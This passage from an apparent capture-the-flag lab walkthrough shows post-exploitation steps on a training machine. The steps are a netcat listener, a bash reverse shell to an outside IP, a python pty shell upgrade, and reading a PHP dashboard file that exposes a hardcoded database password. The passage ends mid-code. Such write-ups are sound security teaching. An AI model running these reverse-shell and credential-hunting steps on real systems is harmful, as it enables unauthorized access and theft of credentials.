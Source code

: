 ```
os-shell>
```
As we have a shell we can set a reverse shell, so as usual we set first the listener in the local machine with `sudo nc -lvnp 443` and right after it we can launch the reverse shell `bash -c "bash -i >& /dev/tcp/10.10.15.208/443 0>&1"`
Once in the reverse shell we can upgrade it with `python3 -c 'import pty;pty.spawn("/bin/bash")'`

The user flag can be found in `/var/lib/postgresql/user.txt`
### Privilege escalation

We check the contents of `/var/www/html` searching for any kind of credentials we can use, to do this `cat dashboard.php`
```
<!DOCTYPE html>
<html lang="en" >
<head>
  <meta charset="UTF-8">
  <title>Admin Dashboard</title>
  <link rel="stylesheet" href="./dashboard.css">
  <script src="https://use.fontawesome.com/33a3739634.js"></script>

</head>
<body>
<!-- partial:index.partial.html -->
<body>
 <div id="wrapper">
 <div class="parent">
  <h1 align="left">MegaCorp Car Catalogue</h1>
<form action="" method="GET">
<div class="search-box">
  <input type="search" name="search" placeholder="Search" />
  <button type="submit" class="search-btn"><i class="fa fa-search"></i></button>
</div>
</form>
  </div>
  
  <table id="keywords" cellspacing="0" cellpadding="0">
    <thead>
      <tr>
        <th><span style="color: white">Name</span></th>
        <th><span style="color: white">Type</span></th>
        <th><span style="color: white">Fuel</span></th>
        <th><span style="color: white">Engine</span></th>
      </tr>
    </thead>
    <tbody>
	<?php
	session_start();
	if($_SESSION['login'] !== "true") {
	  header("Location: index.php");
	  die();
	}
	try {
	  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
	}

	catch ( exception $e ) {
	  echo $e->getMessage();
	}

	if(isset($_REQUEST['search'])) {

```